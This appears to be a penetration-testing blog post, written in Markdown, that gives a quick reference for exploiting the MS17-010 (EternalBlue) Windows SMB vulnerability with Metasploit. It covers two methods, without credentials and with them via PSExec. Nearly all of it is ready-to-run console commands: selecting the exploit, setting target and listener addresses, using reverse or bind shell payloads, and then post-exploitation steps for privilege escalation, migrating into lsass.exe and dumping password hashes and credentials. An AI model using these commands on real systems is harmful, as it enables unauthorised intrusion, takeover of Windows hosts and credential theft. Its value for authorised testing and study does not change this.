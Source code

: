 ```yaml
---
layout: post
title: 'Remote Exploit MS17-010'
date: '2021-03-27'
description: 'This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only.'
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux, metasploit, ms17-010, windows
published: true
posttype: article
categories: blog
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```